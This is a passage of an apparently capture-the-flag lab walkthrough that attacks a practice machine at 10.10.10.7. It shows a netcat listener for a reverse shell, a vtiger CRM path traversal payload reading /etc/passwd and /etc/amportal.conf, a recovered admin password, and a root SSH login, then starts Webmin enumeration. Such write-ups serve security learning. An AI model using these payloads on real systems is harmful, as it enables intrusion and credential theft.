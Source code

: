 ![b8](https://user-images.githubusercontent.com/15195048/93913800-724d3300-fcba-11ea-8c0d-853340f10f89.png)


**Burp Suite**

![b9](https://user-images.githubusercontent.com/15195048/93913801-72e5c980-fcba-11ea-8ac0-88796e622bbb.png)


**Attacker:**
nc -lvp 8888

![b10](https://user-images.githubusercontent.com/15195048/93913802-72e5c980-fcba-11ea-9224-37d00e37f853.png)


## 2 Second Exploit, asterisk user: 
Dirb results showed the following url path:
https://10.10.10.7/vtigercrm/

![b11](https://user-images.githubusercontent.com/15195048/93913805-737e6000-fcba-11ea-9076-b865abd26132.png)


**searchsploit vtiger CRM 5.1.0**

![b12](https://user-images.githubusercontent.com/15195048/93913806-7416f680-fcba-11ea-8781-05c8addb5d55.png)


## Path Traversal
URL: https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action

![b13](https://user-images.githubusercontent.com/15195048/93913810-7416f680-fcba-11ea-85cc-3187efb806ee.png)


URL: https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

![b14](https://user-images.githubusercontent.com/15195048/93913812-75482380-fcba-11ea-940e-13e25f7fd168.png)


**Credentials:**
admin:jEhdIekWmdjE

**ssh root@10.10.10.7 -oKexAlgorithms=diffie-hellman-group1-sha1**

![b15](https://user-images.githubusercontent.com/15195048/93913814-75482380-fcba-11ea-82d0-7f1f69697eee.png)

## 3. Enumerating port 10000

Webmin is a web-based interface for system administration for Unix. Using any modern web browser, you can setup user accounts, Apache, DNS, file sharing and much more. Webmin removes the need to manually edit Unix configuration files like /etc/passwd, and lets you manage a system from the console or remotely.
  
**searchsploit webmin**
  